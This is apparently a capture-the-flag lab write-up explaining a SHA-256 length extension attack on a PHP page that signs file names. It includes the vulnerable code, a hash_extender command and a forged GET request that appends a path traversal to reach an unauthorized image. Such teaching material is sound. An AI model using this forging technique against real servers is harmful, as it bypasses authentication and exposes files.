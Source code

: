 ```php
        $file = mb_convert_encoding($file, 'UTF-8', 'binary');
        $file = preg_replace('/[^\w\/.]/', '', $file);

        // Set the file path in the images folder
        $filePath = __DIR__ . "/images/" . basename($file);

        // Check if the file exists and if it matches a defined product
        if (file_exists($filePath)) {
            $product = $products[$file];
						// Display product details
```

Here's how the vulnerable code works:

1. The server generates a **SHA-256 hash** by signing the file name with a secret key.
2. It then validates the **file** and **signature** parameters from a GET request to ensure the request is authentic.
3. If the signature matches, the server retrieves and displays product details.

### Objective

The objective here is to append additional data (`/../4.png`) to the `file` parameter (e.g., `"1.png"`) to access an unauthorized file while generating a valid SHA-256 signature for the modified file path.


To achieve this, we'll use **Hash Extender** to modify the original file path and create a new signature. The tool is publicly available on [GitHub](https://github.com/iagox86/hash_extender). The command below illustrates how to carry out the attack:

```
~/Rooms/LengthExtensionAttacks/hash_extender# ./hash_extender --data 1.png --signature 02d101c0ac898f9e69b7d6ec1f84a7f0d784e59bbbe057acb4cef2cf93621ba9 --append /../4.png --out-data-format=html


--data           original data to be signed "1.png"
--signature      original hash signature for "1.png"   
--append         adds new data to be appended "/../4.png"

```

> [!info] Note 
> that in some cases, the secret length varies depending on the secret phrase used by the server. Hence, sometimes, it is important to brute force the signature by using an incrementing secret length.

With this new signature, we can send a forged request to access `"4.png"` instead of `"1.png"`. The request might look like this:

```
GET /product.php?file=1%2epng%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00h%2f%2e%2e%2f4%2epng&signature=a9f7878a39b10d0a9d3d1765d3e83dd34b0b0242fa7e1567f085a5a9c467337a
```
The server, trusting the signature, will validate the hash and grant access to `"4.png"` because the new signature matches the appended path.
